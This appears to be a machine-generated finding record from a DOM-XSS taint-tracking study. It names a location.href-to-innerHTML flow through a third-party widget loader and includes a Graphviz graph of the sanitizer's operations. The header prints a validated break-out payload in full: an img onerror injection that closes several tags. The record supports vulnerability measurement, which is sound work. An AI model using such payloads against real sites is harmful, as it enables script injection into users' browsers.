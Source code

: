 // Finding: 0733b8c1-5fd4-4996-9cc8-039256eb2614
// Finding.url: https://www.example408.com/wedding-ideas/wedding-color-palette-generator##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('64b48b489dbf43f2ab56b60f82e711d8')><!--/*
// Finding.parentloc: https://www.example408.com/wedding-ideas/wedding-color-palette-generator##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('64b48b489dbf43f2ab56b60f82e711d8')><!--/*
// Finding.domain: www.example408.com
// Finding.base_domain: example408.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 2
// Sanitizer.name: o.prototype.buildUrl
// Sanitizer.location: https://example409.com/widget/loader.js - o.prototype.buildUrl:1:10897
// Finding.begin: 3653
// Finding.end: 4019
// Finding.original_uuid: ea86efa0-e092-432a-ad76-83af5e145609
// Finding.TwentyFiveMillionFlowsId: -435406442
// Finding.script: https://example409.com/widget/loader.js
// Finding.line: 1
// Exploit.uuid: 64b48b48-9dbf-43f2-ab56-b60f82e711d8
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: "
// Exploit.tag: img
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 73
// Exploit.replace_begin_url: 73
// Exploit.replace_end_url: 73
// Exploit.replace_begin_param: 133
// Exploit.replace_end_param: 133
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -387202328
// DepGraph.sanitizer_hash: 1121032838

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: state[p_u]="];
n5 [shape=ellipse, label="."];
n6 [shape=box, label="Lit: ~/quizzes/477071?"];
n7 [shape=ellipse, label="atob"];
n8 [shape=box, label="Var: x"];
n9 [shape=ellipse, label="preg_replace"];
n10 [shape=box, label="RegExp: /[=]/"];
n11 [shape=box, label="Lit: "];
n12 [shape=box, label="Var: x"];
n13 [shape=ellipse, label="preg_replace"];
n14 [shape=box, label="RegExp: /\+/"];
n15 [shape=box, label="Lit: -"];
n16 [shape=box, label="Var: x"];
n17 [shape=ellipse, label="preg_replace"];
n18 [shape=box, label="RegExp: /\//"];
n19 [shape=box, label="Lit: _"];
n20 [shape=box, label="Var: x"];
n21 [shape=ellipse, label="."];
n22 [shape=box, label="Lit: https://www.qzzr.com/widget/quiz/"];
n23 [shape=box, label="Var: x"];
n24 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n4;
n3 -> n1;
n5 -> n6;
n5 -> n3;
n8 -> n5;
n7 -> n8;
n12 -> n7;
n9 -> n10;
n9 -> n11;
n9 -> n12;
n16 -> n9;
n13 -> n14;
n13 -> n15;
n13 -> n16;
n20 -> n13;
n17 -> n18;
n17 -> n19;
n17 -> n20;
n21 -> n22;
n21 -> n17;
n23 -> n21;
n24 -> n23;
}